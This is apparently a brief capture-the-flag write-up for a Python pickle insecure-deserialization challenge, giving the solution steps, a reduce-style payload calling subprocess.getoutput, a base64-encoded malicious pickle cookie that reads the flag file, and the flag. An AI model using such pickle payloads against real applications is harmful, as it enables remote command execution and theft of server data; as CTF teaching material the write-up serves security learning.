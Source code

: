 * Category
  * Unsecure Deserialization
  * Pickle
* Solution
  1. Generate pickle payload
  2. Use "subprocess.getoutput" to return the output to the website
* Payload
  1. PAYLOAD = ```(__import__('subprocess').getoutput, (command,))```
  2. cookie = ```gASVUAAAAAAAAAB9lCiMA2FnZZRLAYwEbmFtZZSMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMGmNhdCAvZmxhZ181ZmIyYWNlYmYxZDBjNTU4lIWUUpR1Lg==```
* ```FLAG{p1ckle_r1ck}```